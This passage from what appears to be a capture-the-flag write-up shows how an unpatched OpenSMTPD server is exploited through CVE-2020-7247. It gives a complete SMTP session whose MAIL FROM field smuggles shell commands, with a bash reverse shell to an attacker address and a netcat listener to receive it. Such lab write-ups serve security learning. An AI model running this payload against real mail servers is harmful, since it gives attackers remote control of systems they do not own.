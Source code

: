## OpenSMTP

Connecting to the port we see that it is OpenSMTP. Looking around for public exploits on OpenSMTP, we find this promising looking PoC for [CVE-2020-7247](https://www.qualys.com/2020/01/28/cve-2020-7247/lpe-rce-opensmtpd.txt). We use it with a different payload to gain remote code execution and a reverse shell on the SMTP server.

First we stand up our listener on the port we want to recieve the shell.

```php
$nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

We then send the PoC from qualys using the earlier found email address for the administrator. This works by bypassing the whitelist in the `smtp_mailaddr()` function. If the local name of the mail address is invalid and the domain part empty at the same time , we can bascially pass commands to the `mda_unpriv()` function with fewer restrictions. Some characters are however still blocked and there is a length restriction. 
To also bypass this restrictions, we use a loop to strip the `14` header lines, prepended by the server, via a call of read. The body then get's passed over to sh and we achieve RCE and in this case a reverse shell.

```php
$ proxychains nc 10.241.251.113 25
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
220 smtp.realcorp.htb ESMTP OpenSMTPD
HELO smile
250 smtp.realcorp.htb Hello smile [10.241.251.1], pleased to meet you
MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>
250 2.0.0 Ok
RCPT TO:<j.nakazawa@realcorp.htb>
250 2.1.5 Destination address valid: Recipient ok
DATA
354 Enter mail, end with "." on a line by itself

#0
#1
#2
#3
#4
#5
#6
#7
#8
#9
#a
#b
#c
#d
bash -c 'bash -i >& /dev/tcp/10.10.14.86/7575 0>&1'
.
250 2.0.0 e75c1fe0 Message accepted for delivery

```
